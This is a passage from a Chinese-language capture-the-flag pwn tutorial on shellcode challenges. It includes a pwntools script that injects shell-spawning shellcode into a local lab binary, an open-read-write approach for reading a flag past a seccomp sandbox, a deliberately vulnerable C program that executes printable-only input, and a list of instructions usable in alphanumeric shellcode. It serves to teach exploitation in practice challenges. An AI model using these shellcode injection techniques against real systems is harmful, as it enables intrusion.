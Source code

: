 虽然这道题目开启了绝大多数保护，但是没有开启NX保护，因此可以直接向栈上注入shellcode，并且shellcode长度不超过0x200就好：

```python
from pwn import *
context.log_level='debug'
context.arch = 'amd64' #记得指定架构

p=process('./chall1')
shellcode = asm(shellcraft.sh()) 
payload=shellcode
p.sendline(payload)
p.interactive()
```

# 利用sandbox禁用system、execve函数
我们的目的是拿到flag，不一定要得到shell权限，因此可以构造shellcode实现

```c
fp = open("flag")
read(fp,buf,0x30)
write(1,buf,0x30)
```

来读取flag，最典型的例子是pwnable.tw上的orw，之前也说过，附上链接：

[PWN进阶（1-1）-初探（Linux Kernel）sandbox中的prctl-seccomp机制（orw）](https://www.yuque.com/cyberangel/rg9gdm/nwwof4)

这里就不再说了，感兴趣可以移步到文章。

# 限制shellcode中的字符
> 64位程序
>

```c
// gcc -m64 -z execstack -fPIE -pie -z now chall3.c -o chall3
int main() {
    char buf[0x400];
    int n, i;
    n = read(0, buf, 0x400);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(buf[i] < 32 || buf[i] > 126) return 0;
    }
    ((void(*)(void))buf)();
}
```

可以看到，这道题对我们输入的shellcode进行了限制，shellcode的每个字符都要求是可见字符，那么能用的汇编语句就大大减少了，如32位的int 0x80，64位的syscall都不能直接输入，我们如何来构造shellcode？

参考前人的总结，此类题目可用到的汇编指令如下 ：

```c
1.数据传送:
push/pop eax…
pusha/popa

2.算术运算:
inc/dec eax…
sub al, 立即数
sub byte ptr [eax… + 立即数], al dl…
sub byte ptr [eax… + 立即数], ah dh…
sub dword ptr [eax… + 立即数], esi edi
sub word ptr [eax… + 立即数], si di
sub al dl…, byte ptr [eax… + 立即数]
sub ah dh…, byte ptr [eax… + 立即数]
```